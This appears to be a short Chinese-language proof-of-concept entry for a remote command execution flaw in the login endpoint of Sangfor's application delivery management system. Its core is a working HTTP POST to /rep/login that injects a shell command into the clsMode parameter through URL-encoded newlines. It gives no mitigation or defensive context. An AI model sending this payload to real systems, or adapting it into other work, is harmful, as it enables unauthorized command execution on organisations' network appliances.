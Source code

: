 #### 影响范围
深信服应用交付管理系统

#### 漏洞概述
深信服应用交付管理系统login远程命令执行

#### 漏洞复现
验证POC：
````
POST /rep/login 
clsMode=cls_mode_login%0Als%0A&index=index&log_type=report&loginType=account&page=login&rnd=0&userID=admin&userPsw=123
```
